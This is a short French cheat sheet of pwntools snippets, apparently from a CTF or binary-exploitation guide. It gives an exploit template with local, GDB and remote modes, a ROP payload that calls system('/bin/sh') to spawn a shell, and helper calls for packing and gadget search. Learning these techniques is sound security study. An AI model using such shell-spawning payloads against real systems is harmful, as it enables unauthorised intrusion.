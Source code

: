 
# 6. pwntools — snippets & patterns essentiels

## Template d’exploit commun (structure)
```python
#!/usr/bin/env python3
from pwn import *

exe = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # facultatif

context.binary = exe
context.log_level = 'info'  # debug pour plus d'infos

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote('host', 1337)
    elif args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript)
    else:
        return process([exe.path] + argv)

gdbscript = '''
break main
continue
'''

p = start()

# --- Example workflow ---
p.recvuntil(b'> ')
payload = flat(
    b'A'*offset,
    p64(pop_rdi),
    p64(next(exe.search(b'/bin/sh'))),
    p64(exe.plt['system'])
)

p.sendline(payload)
p.interactive()
```

## Utilitaires utiles
```python
# packing
p64(0x401000)
u64(data.ljust(8, b'\x00'))

# chercher gadgets
rop = ROP(exe)
rop.find_gadget(['pop rdi', 'ret'])
rop.chain()

# envoyer/recevoir
p.send(b'...')
p.sendlineafter(b'>', payload)
p.recvuntil(b'something')
p.recvline()
p.recv(timeout=1)

# interaction
p.interactive()
```